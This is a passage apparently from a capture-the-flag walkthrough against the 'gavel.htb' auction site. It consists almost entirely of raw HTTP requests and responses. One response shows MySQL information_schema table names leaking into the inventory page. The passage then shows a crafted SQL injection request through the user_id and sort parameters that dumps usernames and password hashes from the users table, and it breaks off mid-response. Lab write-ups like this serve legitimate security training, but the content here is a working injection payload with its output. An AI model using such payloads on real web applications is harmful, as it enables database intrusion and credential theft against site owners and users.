Cookie: gavel_session=ck1t3sue0ev7cm6andoudvpdqg
Connection: keep-alive


```

```shell
HTTP/1.1 200 OK
Date: Sun, 30 Nov 2025 11:04:30 GMT
Server: Apache/2.4.52 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 62290
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8


<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Your Inventory</title>
    <link href="/assets/vendor/fontawesome-free/css/all.min.css" rel="stylesheet">
    <link href="https://fonts.googleapis.com/css?family=Nunito:300,400,700&display=swap" rel="stylesheet">
    <link href="/assets/css/sb-admin-2.css" rel="stylesheet">
    <link id="favicon" rel="icon" type="image/x-icon" href="/assets/img/favicon.ico">
</head>
<body id="page-top">
    <div id="wrapper">
        <!-- Sidebar -->
        <ul class="navbar-nav bg-gradient-primary sidebar sidebar-dark accordion" id="accordionSidebar">
            <a class="sidebar-brand d-flex align-items-center justify-content-center" href="index.php">
                <div class="sidebar-brand-icon rotate-n-15">
                    <i class="fas fa-gavel"></i>
                </div>
                <div class="sidebar-brand-text mx-3">Gavel</div>
            </a>
            <hr class="sidebar-divider my-0">

                            <li class="nav-item">
                    <a class="nav-link" href="index.php">
                        <i class="fas fa-fw fa-home"></i>
                        <span>Home</span>
                    </a>
                </li>
                <li class="nav-item active">
                    <a class="nav-link" href="inventory.php">
                        <i class="fas fa-box-open"></i>
                        <span>Inventory</span>
                    </a>
                </li>
                <li class="nav-item">
                    <a class="nav-link" href="bidding.php">
                        <i class="fas fa-hammer"></i>
                        <span>Bidding</span>
                    </a>
                </li>
                                <hr class="sidebar-divider d-none d-md-block">
                <li class="nav-item">
                    <a class="nav-link" href="logout.php">
                        <i class="fas fa-sign-out-alt"></i>
                        <span>Logout</span>
                    </a>
                </li>
                    </ul>
        <!-- End of Sidebar -->
        <div class="container-fluid pt-4">
            <div class="d-flex justify-content-between align-items-center mb-4">
                <h1 class="h3 text-gray-800"><i class="fas fa-box-open"></i> Inventory of foobar</h1>
                <h1 class="h5 text-gray-800 mb-0"><i class="fas fa-coins"></i> <strong>38,000</strong></h1>
            </div>
            <hr>
            <div class="d-flex justify-content-between align-items-center mb-3">
                <div class="flex-grow-1 mr-3">
                                            <div class="alert alert-success mb-0">
                            Your inventory.
                        </div>
                                    </div>
                <form action="" method="POST" class="form-inline" id="sortForm">
                    <label for="sort" class="mr-2 text-dark"><strong>Sort by:</strong></label>
                    <input type="hidden" name="user_id" value="2">
                    <select name="sort" id="sort" class="form-control form-control-sm mr-2" onchange="document.getElementById('sortForm').submit();">
                        <option value="item_name" >Name</option>
                        <option value="quantity" >Quantity</option>
                    </select>
                </form>
            </div>
            <div class="row">
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>auctions</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>inventory</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>items</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>users</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>ADMINISTRABLE_ROLE_AUTHORIZATIONS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>APPLICABLE_ROLES</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>CHARACTER_SETS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>CHECK_CONSTRAINTS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>COLLATIONS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>COLLATION_CHARACTER_SET_APPLICABILITY</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>COLUMNS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>COLUMNS_EXTENSIONS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>COLUMN_PRIVILEGES</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>COLUMN_STATISTICS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>ENABLED_ROLES</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>ENGINES</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>EVENTS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>FILES</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_BUFFER_PAGE</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_BUFFER_PAGE_LRU</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_BUFFER_POOL_STATS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_CACHED_INDEXES</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_CMP</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_CMPMEM</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_CMPMEM_RESET</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_CMP_PER_INDEX</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_CMP_PER_INDEX_RESET</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_CMP_RESET</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_COLUMNS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_DATAFILES</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_FIELDS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_FOREIGN</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_FOREIGN_COLS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_FT_BEING_DELETED</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_FT_CONFIG</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_FT_DEFAULT_STOPWORD</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_FT_DELETED</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_FT_INDEX_CACHE</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_FT_INDEX_TABLE</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_INDEXES</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_METRICS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_SESSION_TEMP_TABLESPACES</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_TABLES</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_TABLESPACES</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_TABLESPACES_BRIEF</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_TABLESTATS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_TEMP_TABLE_INFO</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_TRX</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>INNODB_VIRTUAL</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>KEYWORDS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>KEY_COLUMN_USAGE</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>OPTIMIZER_TRACE</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>PARAMETERS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>PARTITIONS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>PLUGINS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>PROCESSLIST</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>PROFILING</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>REFERENTIAL_CONSTRAINTS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>RESOURCE_GROUPS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>ROLE_COLUMN_GRANTS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>ROLE_ROUTINE_GRANTS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>ROLE_TABLE_GRANTS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>ROUTINES</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>SCHEMATA</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>SCHEMATA_EXTENSIONS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>SCHEMA_PRIVILEGES</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>STATISTICS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>ST_GEOMETRY_COLUMNS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>ST_SPATIAL_REFERENCE_SYSTEMS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>ST_UNITS_OF_MEASURE</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>TABLES</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>TABLESPACES</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>TABLESPACES_EXTENSIONS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>TABLES_EXTENSIONS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>TABLE_CONSTRAINTS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>TABLE_CONSTRAINTS_EXTENSIONS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>TABLE_PRIVILEGES</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>TRIGGERS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>USER_ATTRIBUTES</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>USER_PRIVILEGES</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>VIEWS</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>VIEW_ROUTINE_USAGE</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>VIEW_TABLE_USAGE</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>global_status</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>global_variables</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>persisted_variables</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>processlist</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>session_account_connect_attrs</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>session_status</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>session_variables</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                                    <div class="col-md-4">
                        <div class="card shadow mb-4">
                            <div class="card-body">
                                
                                <hr>
                                <h5 class="card-title"><strong>variables_info</strong>
                                                                </h5><hr>
                                <p class="card-text text-justify"></p>
                            </div>
                        </div>
                    </div>
                            </div>
        </div>
    </div>
    <script src="/assets/vendor/jquery/jquery.min.js"></script>
    <script src="/assets/vendor/bootstrap/js/bootstrap.bundle.min.js"></script>
    <script src="/assets/vendor/jquery-easing/jquery.easing.min.js"></script>
    <script src="/assets/js/sb-admin-2.min.js"></script>
</body>
</html>

```

```shell
GET /inventory.php?user_id=x`+FROM+(SELECT+CONCAT(username,0x3a,password)+AS+`'x`+from+users)y;--+-&sort=\?;--+-%00
```

```shell
GET /inventory.php?user_id=x`+FROM+(SELECT+CONCAT(username,0x3a,password)+AS+`'x`+from+users)y;--+-&sort=\?;--+-%00 HTTP/1.1
Host: gavel.htb
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: gavel_session=ck1t3sue0ev7cm6andoudvpdqg
Connection: keep-alive


```

```shell
HTTP/1.1 200 OK
Date: Sun, 30 Nov 2025 11:07:18 GMT
Server: Apache/2.4.52 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 6134
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8


<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Your Inventory</title>
    <link href="/assets/vendor/fontawesome-free/css/all.min.css" rel="stylesheet">
    <link href="https://fonts.googleapis.com/css?family=Nunito:300,400,700&display=swap" rel="stylesheet">
    <link href="/assets/css/sb-admin-2.css" rel="stylesheet">
    <link id="favicon" rel="icon" type="image/x-icon" href="/assets/img/favicon.ico">
</head>
<body id="page-top">
    <div id="wrapper">
        <!-- Sidebar -->
        <ul class="navbar-nav bg-gradient-primary sidebar sidebar-dark accordion" id="accordionSidebar">
            <a class="sidebar-brand d-flex align-items-center justify-content-center" href="index.php">
                <div class="sidebar-brand-icon rotate-n-15">
                    <i class="fas fa-gavel"></i>
                </div>
                <div class="sidebar-brand-text mx-3">Gavel</div>
            </a>
            <hr class="sidebar-divider my-0">

                            <li class="nav-item">
                    <a class="nav-link" href="index.php">
                        <i class="fas fa-fw fa-home"></i>
                        <span>Home</span>
                    </a>
                </li>
                <li class="nav-item active">
                    <a class="nav-link" href="inventory.php">
                        <i class="fas fa-box-open"></i>
                        <span>Inventory</span>
                    </a>
                </li>
                <li class="nav-item">
                    <a class="nav-link" href="bidding.php">
                        <i class="fas fa-hammer"></i>
                        <span>Bidding</span>
                    </a>
                </li>
                                <hr class="sidebar-divider d-none d-md-block">
                <li class="nav-item">
                    <a class="nav-link" href="logout.php">
                        <i class="fas fa-sign-out-alt"></i>
                        <span>Logout</span>
                    </a>
                </li>
                    </ul>
        <!-- End of Sidebar -->
        <div class="container-fluid pt-4">
